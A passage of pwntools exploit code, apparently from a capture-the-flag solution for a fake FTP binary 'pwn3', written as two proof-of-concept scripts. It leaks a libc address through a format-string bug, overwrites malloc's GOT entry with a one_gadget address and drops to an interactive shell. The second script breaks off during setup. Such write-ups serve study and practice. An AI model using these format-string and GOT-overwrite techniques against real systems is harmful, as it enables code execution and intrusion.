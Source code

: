 ```python
    put_file(exp_file, "aaaa", "%4$p")
    get_file(exp_file, "aaaa")
    libc_addr = int(exp_file.recv(10), 16) - 7 - libc_file.symbols['__underflow']
    one_gadget_addr = libc_addr + one_gadget_offset
    log.info("libc_addr:{libc_addr}".format(libc_addr=hex(libc_addr)))

    # Change malloc_got to one gadget address
    malloc_got = elf_file.got['malloc']
    log.info("malloc_got:{malloc_got}".format(malloc_got=hex(malloc_got)))
    payload = fmtstr_payload(7, {malloc_got: one_gadget_addr})
    put_file(exp_file, "bbbb", payload)
    get_file(exp_file, "bbbb")

    # To trigger malloc(one_gadget)
    exp_file.recvuntil("ftp>")
    exp_file.sendline("put")
    exp_file.interactive()


if __name__ == '__main__':
    main()
```



`poc_2` :

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *


def login(exp_file):
    password_raw = "sysbdmin"
    password_enc = ""
    for chars in password_raw:
        password_enc += chr(ord(chars) - 1)
    log.info("password:{password}".format(password=password_enc))
    exp_file.recvuntil("Name (ftp.hacker.server:Rainism):")
    exp_file.sendline(password_enc)


def put_file(exp_file, name, value):
    exp_file.recvuntil("ftp>")
    exp_file.sendline("put")
    exp_file.recvuntil("please enter the name of the file you want to upload:")
    exp_file.sendline(name)
    exp_file.recvuntil("then, enter the content:")
    exp_file.sendline(value)


def get_file(exp_file, name):
    exp_file.recvuntil("ftp>")
    exp_file.sendline("get")
    exp_file.recvuntil("enter the file name you want to get:")
    exp_file.sendline(name)


def main():
    debug = 1
    if debug:
        exp_file = process("./pwn3")
        elf_file = ELF("./pwn3")
        libc_file = ELF("/lib/i386-linux-gnu/libc.so.6")
```